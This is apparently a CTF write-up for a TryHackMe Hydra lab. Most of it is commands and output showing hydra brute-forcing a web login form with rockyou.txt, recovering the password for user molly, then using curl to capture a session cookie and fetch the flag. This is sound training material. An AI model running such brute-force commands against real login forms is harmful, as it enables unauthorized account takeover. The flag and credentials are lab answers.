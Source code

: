 # 10.201.20.141

hydra -l <username> -P <wordlist> 10.201.20.141 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.20.141 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

![](https://velog.velcdn.com/images/agnusdei1207/post/b6adca47-7371-4867-aec6-80b0e34434f0/image.png)

──(root㉿docker-desktop)-[/]
└─# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.20.141 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-25 15:00:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.201.20.141:80/login:username=^USER^&password=^PASS^:Your username or password is incorrect.
[80][http-post-form] host: 10.201.20.141 login: molly password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-25 15:00:43

# curl -X POST http://10.201.20.141/login -d "username=molly&password=sunshine" -L -c -v cookies.txt

┌──(root㉿docker-desktop)-[/]
└─# curl -X POST http://10.201.20.141/login -d "username=molly&password=sunshine" -L -c -v cookies.txt
Note: Unnecessary use of -X or --request, POST is already inferred.

- Trying 10.201.20.141:80...
- Connected to 10.201.20.141 (10.201.20.141) port 80
- using HTTP/1.x
  > POST /login HTTP/1.1
  > Host: 10.201.20.141
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
  > Content-Length: 32
  > Content-Type: application/x-www-form-urlencoded
- upload completely sent off: 32 bytes
  < HTTP/1.1 302 Found
  < X-Powered-By: Express
- Need to rewind upload for next request
  < Location: /
  < Vary: Accept
  < Content-Type: text/plain; charset=utf-8
  < Content-Length: 23
  < Date: Thu, 25 Sep 2025 15:04:18 GMT
  < Connection: keep-alive
- Ignoring the response-body
- setting size while ignoring
  <
- Connection #0 to host 10.201.20.141 left intact
- Issue another request to this URL: 'http://10.201.20.141/'
- Stick to POST instead of GET
- Re-using existing http: connection with host 10.201.20.141
  > POST / HTTP/1.1
  > Host: 10.201.20.141
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 404 Not Found
  < X-Powered-By: Express
  < Content-Security-Policy: default-src 'none'
  < X-Content-Type-Options: nosniff
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 140
  < Date: Thu, 25 Sep 2025 15:04:19 GMT
  < Connection: keep-alive
  <
  <!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="utf-8">
  <title>Error</title>
  </head>
  <body>
  <pre>Cannot POST /</pre>
  </body>
  </html>
- Connection #0 to host 10.201.20.141 left intact

# 쿠키 확보 -> connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA

# cat cookie.txt

# curl http://10.201.20.141/ -b "connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA" -v

# curl http://10.201.20.141 -b cookies.txt -v

┌──(root㉿docker-desktop)-[/]
└─# curl http://10.201.20.141 -b cookies.txt -v

- Trying 10.201.20.141:80...
- Connected to 10.201.20.141 (10.201.20.141) port 80
- using HTTP/1.x
  > GET / HTTP/1.1
  > Host: 10.201.20.141
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 200 OK
  < X-Powered-By: Express
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 856
  < ETag: W/"358-ZUlnMFSQKTY8/4+sv52YQFGK7I4"
  < Date: Thu, 25 Sep 2025 15:06:38 GMT
  < Connection: keep-alive
  <
  <!doctype html>
  <html lang="en">
    <head>
      <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <link rel="stylesheet" href="/css/bootstrap.min.css">
  <title>Hydra Challenge</title>

    </head>
    <style>
      .jumbotron {
        background-image: url(/img/background.jpg);
        color: white;
        object-fit: cover;
        height: 100vh;
        margin: 0;
        border-radius: 0;
      }
      h1 {
        position: absolute;
        left: 50px;
        top: 50px;
        font-weight: bold;
        font-size: 50px;
      }
    </style>
    <body>

      <div class="jumbotron text-center">
        <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
      </div>

      <script src="/js/jquery.slim.min.js"></script>
      <script src="/js/popper.min.js"></script>
      <script src="/js/bootstrap.min.js"></script>

    </body>
  </html>

- Connection #0 to host 10.201.20.141 left intact

